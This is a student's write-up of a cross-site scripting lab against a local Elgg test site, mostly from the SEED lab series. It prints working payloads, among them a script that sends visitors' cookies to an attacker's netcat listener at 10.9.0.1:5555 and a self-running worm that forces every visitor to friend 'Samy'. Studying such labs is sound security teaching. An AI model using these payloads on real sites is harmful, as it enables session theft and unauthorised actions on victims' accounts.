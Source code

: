 ## Cross-Site Scripting Attack Lab

### Task 1
In this task we're asked to inject javascript code into a user's profile such that when that profile is loaded, an alert popup will show up with the message "XSS". <br>
In order to do so, firstly, we need to login into an user account. We chose Alice.

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049736125780070481/image.png">

Then, we changed her Brief Description section to contain our javascript code: `<script>alert('XSS');</script>`

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049741154406633533/image.png">

Upon submiting the edit form, we're met with the expected popup, since the page reloads. Because the privacy of Alice's Brief Description section is set to public, any user that loads her profile should be met with the exact same popup.

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049741154767347732/image.png">

### Task 2

With a small change to our code, we can display the user's cookies, instead of a random message: `<script>alert(document.cookie);</script>`

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049742743523578026/image.png">

Yet again, any user that loads this page will be met with the popup.

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049742660442796092/image.png">

### Task 3

Because displaying the cookies to the user is not useful to us (it's beyond useless, since it actually warns the user that their cookies are under attack), we want to silently retrieve them. <br>
This can be achieved with a small piece of javascript code that creates a new `<img>` html element with its source pointing to a server we control, created using netcat: `<script>document.write(’<img src=http://10.9.0.1:5555?c=’+ escape(document.cookie) + ’ >’);</script>` <br>
When the browser tries to retrieve this image, it will send a GET request to our server with the cookie information attached.

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049744046450548736/image.png">

As you can see, the browser sent the GET request, and it got to our server.

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049744563364954122/image.png">

### Task 4

Our objective is to create and inject a piece of javascript code onto the website that will add Samy as a friend to anyone that loads Alice's profile. <br>
In order to do so, we need to know the request's structure. <br>
We achieved this by logging into Boby's account and adding Samy as a friend, all while having the Firefox's dev tools open recording all the HTTP requests sent. 

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049749147097497670/image.png">

Now that we know what action is invoked and what arguments are passed, we can create the script we'll be injecting in Alice's account description. <br>
The request receives as arguments some sort of user identifier passed in the "friend" field, in Samy's case it's 59, and two Elgg fields: __elgg_ts and __elgg_token. <br>
With this in mind, using the given code, we can easily build our script and place it into Alice's description.

```js
<script type="text/javascript">
        window.onload = function () {
                var Ajax=null;
                var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; // ➀
                var token="&__elgg_token="+elgg.security.token.__elgg_token; // ➁

                //Construct the HTTP request to add Samy as a friend.
                var friend="friend=59"; //Samy's friend "code"
                
                var sendurl="http://www.seed-server.com/action/friends/add?"+friend+ts+token+ts+token; 

                //Create and send Ajax request to add friend
                Ajax=new XMLHttpRequest();
                Ajax.open("GET", sendurl, true);
                Ajax.send();
        }
</script>
```

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049751088439509072/image.png">

- Question 1: Explain the purpose of Lines ➀ and ➁, why are they needed?
    - R: The purpose of the lines is to retrieve the information needed for the __elgg_ts and __elgg_token fields from the user's security token, which is unique. This was we can generalize the attack to work on any user that loads the vulnerable page.
- Question 2: If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?
    - R: Yes. Despite Editor mode adding aditional HTML code to our code, rendering the way we're using to inject our worm onto the website useless, we could still use a different method, like the one explained earlier in this lab's tutorial. Assuming the other fields are still present, like the Brief Description field, we could insert a small script tag that redirects to our worm code, in another server.

We know that, before placing our code in Alice's profile, Alice is not friends with Samy.

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049751572764172389/image.png">

This changes after reloading the page, confirming that our worm is successful in it's job.

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049751331855933451/image.png">
<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049751476592988240/image.png">

Just to make sure, we tested this with an unsuspecting victim, Charlie.

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049751788795985942/image.png">
<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049751987354357771/image.png">
<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049752115351928962/image.png">

## Week 10 CTF Challenge
### Challenge 1

### Challenge 2

